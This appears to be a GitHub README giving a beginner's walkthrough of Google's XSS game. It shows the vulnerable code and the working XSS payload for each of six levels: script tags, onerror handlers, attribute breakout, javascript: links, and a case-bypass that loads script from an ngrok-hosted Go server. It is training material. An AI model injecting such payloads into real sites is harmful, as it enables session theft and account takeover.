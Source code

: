 # xss-game-appspot
[xss-game-appspot](https://xss-game.appspot.com) is an "XSS game area" (Great Mother Google sait it on it's home page so i suppose it can be correct) made by Google. It consist of 6 challenges in which you have to find the correct XSS payload to prompt an **alert()**.
It's designed for Web Developers who aren't so much skilled in security, but i'm starting to dive deeper into XSS, so i made this anyway.
It was kinda easy, except for Level 4 which was a pain in the ass cause i was a dumbass.

## Level 1
This level was the classic XSS example that anyone has seen at least once in a lifetime: there is a textbox and a submit button, once the button is pressed the text in the textbox is reflected on another page.

![Level1](Images/Level1.png)

A simple **\<script>alert()\</script>** will make it.

## Level 2
In this level we have a simulation of a chat: the text in the chat textbox is posted as a new message, and everything is done by JS, so the **\<script>alert()\</script>** won't be enough, as the page is not being loaded, and the script is not being fired. So we need a way to launch the script.

![Level2-1](Images/Level2-1.png)

The simplest way to launch it is to create an element with a DOM Event, so once the page attach our payload to the chat, we'll just need to trigger the Event.
I'm a huge fan of the **\<img src="" onerror="alert()">**, because the first time i've discovered it (3 or 4 years ago) i spent HOURS before realising that.

(Fun fuct: When i was writing this report, i discovered that the challenge in which i discovered this payload is this challenge: i made it when i was starting studying Cybersec things a long time ago. So i made this challenge, probably without completing it, i forgot about it and i made it a second time. Yeah, i know, i'm a genius)

My outstanding moves aside, the payload above work really well, but other payloads could be:
+ **\<p onmouseover="alert">XSS\</p>**
+ **\<p onclick="alert()">XSS\</p>**
+ etc..

## Level 3
In this level we have a small set of images, and depending on the location.hash value, the correct image is loaded. Our only entry point is the anchor in the url, so we have to inject our paylod there.

![Level3-1](Images/Level3-1.png)

Taking a look at the source code of the page, we find the chooseTab() function:
```
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);

        /*More code irrelevant for this level*/
```
This function take as an argument "num", and put it in the src attribute of an image, so "num" must be the value of the anchor, as we can also see here:

```
chooseTab(unescape(self.location.hash.substr(1)) || "1");
```

So our payload should close the src attribute and add an Event to trigger the alert(). I used **4' onerror='alert()'>** because i'm an onerror-fag, obtaining the URL **https://xss-game.appspot.com/level3/frame#4' onerror='alert()'>**

(Fun fuct pt.2 i spent HOURS trying to find where the payload was being injected because i was seeing it only in the src attribute of the challenge's iframe, and i wasn't really getting how everything was working.. until i realised that the img with the payload was just below the elements i was looking at)

# Level 4
In this level we have a simple input box which take as an input something and use it to create a timer.

![Level 4](Images/Level4-1.png)

The input submitted is passed via get request as the "timer" parameter:
```
    <form action="" method="GET">
      <input id="timer" name="timer" value="3">
      <input id="button" type="submit" value="Create timer"> </form>
    </form>
```

Which is rendered with a template in a Django application and then sent back to us:
```
def render_template(self, filename, context={}):
        path = os.path.join(os.path.dirname(__file__), filename)
        self.response.out.write(template.render(path, context))

timer= self.request.get('timer', 0)
self.render_template('timer.html', { 'timer' : timer })
```

The actual page use this input to call a function using the onload() Event:
```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

So our scope is to trick the page to call startTimer() successfully AND fire our XSS: first of all, we have to close the brackets with **');** assuring that startTimer() don't trigger any error, and then we append our **alert();//**, also commenting out the rest of the img tag (We don't have to close it, the browser will do it for us). So the final payload is **'); alert();//**

# Level 5
In this level we can sign up for the beta of a product. After clicking the "Sign up" on the first page (Which is actually kinda useless), we find an url with a "next" parameter. The value of "next" is rendered with a template like the example above, and its value is placed inside a link.

```
    <a href="{{ next }}">Next >></a>
```

So to fire the XSS we have to put our payload in the URL as the "next" parameter, but Events like onerror, onclick, ecc.. won't work. The only way to trigger it is to use the javascript scheme **javascript:alert()**, so when the user click the link, the alert will fire.

Our final URL will be: https://xss-game.appspot.com/level5/signup?next=javascript:alert()

# Level 6
In this level we have a static single page. No input, no link, nothing. Just a paragraph and an image.

![Level6](Images/Level6-1.png)

Looking at the source code we find out that the page actually creates a script and load its resources from the anchor in the URL, so changing it will allow us to load arbitrary Javascript from a server.
```
function includeGadget(url) {
      var scriptEl = document.createElement('script');
 
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
 
      // Load this awesome gadget
      scriptEl.src = url;
 
      // Show log messages
      scriptEl.onload = function() { 
        setInnerText(document.getElementById("log"),  
          "Loaded gadget from " + url);
      }
      scriptEl.onerror = function() { 
        setInnerText(document.getElementById("log"),  
          "Couldn't load gadget from " + url);
      }
 
      document.head.appendChild(scriptEl);
}
```
But, as we can see from the code above, there is a simple regex that block every http/https URL from being loaded. However, this filter block only lowercase URLs, so using HTTPS instead of https is ok.

The only step remaining is to set up a simple server which could serve our XSS. As a Go lover, i set it up with Golang
```
package main

import (
	"fmt"
	"log"
	"net/http"
)

func handler(w http.ResponseWriter, r *http.Request) {
	fmt.Fprintf(w, "alert()	")
}

func main() {
	http.HandleFunc("/", handler)
	log.Fatal(http.ListenAndServe(":8080", nil))
}
```

But the only problem is: this server is on my private network, how can i make it public? I decided to use Ngrok, that create a public URL to my server, and passing it to the challenge's URL.

My final URL was: https://xss-game.appspot.com/level6/frame#HTTPS://CodeGeneratedByNgrok.ngrok.io/

# My review
This challenge was quite easy compared to a lot of other challenges outside in the web, but is very very good for beginners. I found it on youtube and because i had so much spare time i decided to test it out. It was a good way to test out my basic knowledge of JavaScript, since i didn't touched it for a lot of time. And the [cake](https://www.google.com/about/appsecurity/learning/xss/) is very cool